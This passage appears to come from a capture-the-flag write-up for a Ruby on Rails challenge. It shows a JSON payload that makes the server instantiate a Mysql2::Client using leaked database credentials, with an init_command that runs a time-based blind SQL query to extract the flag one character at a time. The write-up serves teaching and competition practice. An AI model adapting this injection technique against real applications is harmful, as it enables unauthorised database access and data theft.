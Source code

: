 ```
+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
1 row in set (0.001 sec)
```

Using the leaked DB password and username, you can then connect to the MariaDB in the container. However, since the endpoint only returns either success or a 500 response, to leak the flag you have to perform either a blind attack.

In addition, Rack removes open file descriptors after a certain number of requests, which complicates the final exploit.

The following example JSON uses an error-based approach, that causes a 500 response using the `connect_timeout` option and `sleep(2)` when a character is matched.

```http
{
    "type": "Mysql2::Client",
    "arg": {
        "host": "127.0.0.1",
        "username": "thefatcontroller",
        "password": "de13c3cc60e134ff099875230ebfb9e6480635d273a1fea9d6b31f5766b75f59",
        "database": "off_dah_rails_m8_production",
        "connect_timeout": 1,
        "init_command": "SELECT sleep(2) FROM flag WHERE flag LIKE BINARY 'DUCTF{A%';"
    }
}
```

[`solve.py`](./solve.py) automates the final exploit